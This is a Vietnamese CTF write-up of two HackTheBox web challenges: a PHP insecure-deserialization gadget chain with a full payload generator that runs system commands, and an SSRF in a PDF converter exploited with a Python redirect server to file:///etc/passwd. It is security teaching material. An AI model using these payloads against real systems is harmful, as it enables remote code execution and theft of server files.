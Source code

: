 ```yaml
---
title: HackTheBox
published: 2025-07-08
description: 'HackTheBox-bl4ck0ut'
image: './image.png'
tags: [WEB]
category: 'CTF Writeup'
draft: false 
lang: 'vi, en'
---
```

# POP Restaurant
## Liệt Kê Và Phân Tích
![alt text](image-1.png)
Đầu tiên chúng ta cần khởi tạo phiên bản.Sau khi vào thử thách trang web sẽ hiển thị 1 trang order thức ăn với 2 chức năng ban đầu <b>Login</b> và <b>Register</b>
![alt text](image-2.png)
Chúng ta cùng tạo 1 tài khoản và tiến hành đăng nhập vào ứng dụng thử order các thức ăn thì nó hiển thị như sau
![alt text](image-3.png)
Ở BurpSuite có dữ liệu data chúng ta cùng decode thử dạng này theo base64
![alt text](image-4.png)
Ở đây tôi phát hiện mùi quá trình hủy tuần tự hóa và chúng ta cùng đi sâu tiếp theo.
![alt text](image-5.png)
Ở thử thách có cung cấp mã nguồn chúng ta cùng tải xuống và phân tích mã nguồn sau khi xem xét qua mã nguồn chúng ta có thể tập trung các file sau đây: 
1. ArrayHelpers.php
2. IceCreamModel.php
3. PizzaModel.php
4. SpaghetiModel.php
5. Order.php
Cùng đi sâu vào phân tích từng cái nhé: <b>PizzaModel.php</b>
```php
<?php
	class Pizza
	{
		public $price;
		public $cheese;
		public $size;

		public function __destruct()
		{
			echo $this->size->what;
		}
	}
```
Ở lớp Pizza bị hủy, truy cập <b>$this->size->what</b> (không tồn tại) -> Gọi <b>Spaghetti::__get()</b>
```php
<?php

class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}
```
<b>$this->sauce</b> là IceCream gọi hàm: <b>__invoke()</b> sẽ được kích hoạt

```php
<?php
	class IceCream
	{
		public $flavors;
		public $topping;

		public function __invoke()
		{
			foreach ($this->flavors as $flavor) {
				echo $flavor;
			}
		}
	}
```
<b>$this->flavors</b> là <b>ArrayHelpers</b> là một object iterable (implements IteratorAggregate). Khi lặp <b>$this->flavors</b> PHP gọi: <b>ArrayHelpers::getIterator()</b> trong đó:

```php
<?php

namespace Helpers{
    use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator
	{
		public $callback;

		public function current()
		{
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}
```
Nó sẽ gọi call_user_func với tham số callback bằng cách đưa giá trị system còn $value đưa giá trị id chẳng hạn thì khi hủy tuần tự hóa nó sẽ thực thi <b>system('id')</b> đặc biệt ở order.php
```php
$order = unserialize(base64_decode($_POST['data']));
$foodName = get_class($order);
```
Khi order vơi foodname nó sẽ  unserialize đầu vào dữ liệu không xác thực vệ sinh nên điều đó chúng ta có thể dẫn đến khai thác lỗ hổng <b>Insecure Deserialization</b>
### Khai Thác
Tới đây chúng ta có thể xây dựng payload để khai thác hủy tuần tự hóa ở food như sau tôi sẽ viết tập lệnh PHP như sau:
```php
<?php
namespace Helpers {
    class ArrayHelpers extends \ArrayIterator
    {
        public $callback;

        public function current(){
            $value = parent::current();
            $debug = call_user_func($this->callback, $value);
            return $value;
        }
    }
}
namespace {

    use Helpers\ArrayHelpers;

    class IceCream
    {
        public $flavors;
        public $topping;
    }

    class Spaghetti
    {
        public $sauce;
        public $noodles;
        public $portion;
    }

    class Pizza
    {
        public $price;
        public $cheese;
        public $size;
    }
    
    $ArrayHelpers = new ArrayHelpers(['id']);
    $ArrayHelpers->callback = 'system';

    $IceCream = new IceCream();
    $IceCream->flavors = $ArrayHelpers;

    $Spaghetti = new Spaghetti();
    $Spaghetti->sauce = $IceCream;

    $Pizza = new Pizza();
    $Pizza->size = $Spaghetti;

    $serialized = serialize($Pizza);

    $encoded = base64_encode($serialized);

    echo "Serialized and encoded payload done:\n";
    echo $encoded . "\n";
}
```
Giải thích ở mã nguồn khai thác trên như sau giả sử có có chuỗi Object như sau:
```php
$Pizza->size = $Spaghetti;
$Spaghetti->sauce = $IceCream;
$IceCream->flavors = $ArrayHelpers;
$ArrayHelpers->callback = 'system';
$ArrayHelpers->array = ['whoami'];
```
Khi Pizza::__destruct() gọi $this->size->what, sẽ trigger:
1. Spaghetti::__get() → gọi $this->sauce()
2. IceCream::__invoke() → lặp qua $this->flavors (là ArrayHelpers)
3. ArrayHelpers::current() được gọi
4. call_user_func('system', 'whoami') được thực thi 
![alt text](image-6.png)
Chúng ta cùng kiểm tra nhé.
![alt text](image-7.png)
Chúng ta đã thành công Inject được bây giờ kiểm tra Flag  bằng cách thay đổi tải trọng trên nhé
![alt text](image-8.png)
<b>pBhfMBQlu9uT_flag.txt</b>
Trigger Flag: <b>HTB{jU5t_del1ver_m3_th3_fl4g}</b>

# PDFy
![alt text](image-9.png)
Cùng khởi động phiên Thử Thách
## Liệt Kê Và Phân Tích
Ở đây trang nó hiển thị về 1 phần chuyển đổi sang định dạng PDF 
![alt text](image-10.png)
Tới đây tôi thử nghiệm <b>http://google.com</b> Thì nó chuyển đổi trang google thành 1 file PDF
![alt text](image-11.png)
Cùng với mô tả thử thách chúng ta cần rò rỉ được nội dung <b>/etc/passwd để lấy được FLAG</b> ở đây ở những dạng này nó thường là một SSRF mục tiêu bây giờ chúng ta cần làm sao để khi nó render ra file PDF nó sẽ chuyển hướng đến /etc/passwd.
Sau một hồi tôi thử nghiệm với ngrok thì nhận ra ngrok free nó sẽ bị lỗi khi render ra PDF và chuyển thành file trống và sau quá trình tìm hiểu bây giờ vào khai thác bằng cách host 1 file redirect về file /etc/passwd sử dụng một miền <b>cloudflared</b> để lưu trữ nội bộ của tôi.
## Khai thác
Tôi sẽ viết tập lệnh python redirect về /etc/passwd khi render ra PDF như sau:
```python
from http.server import HTTPServer, BaseHTTPRequestHandler
class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'file:///etc/passwd')
        self.end_headers()

if __name__ == '__main__':
    HTTPServer(('0.0.0.0', 8000), RedirectHandler).serve_forever()
```
Lưu trữ nó và chạy file này:
![alt text](image-12.png)
Sử dụng cloudflared để host nội bộ của tôi.
![alt text](image-13.png)
Bây giờ cùng truy cập vào web nhé và đã thành công leak được file: /etc/passwd
![alt text](image-15.png)
![alt text](image-14.png)
Trigger Flag: <b>HTB{pdF_g3n3r4t1on_g03s_brrr!}</b>


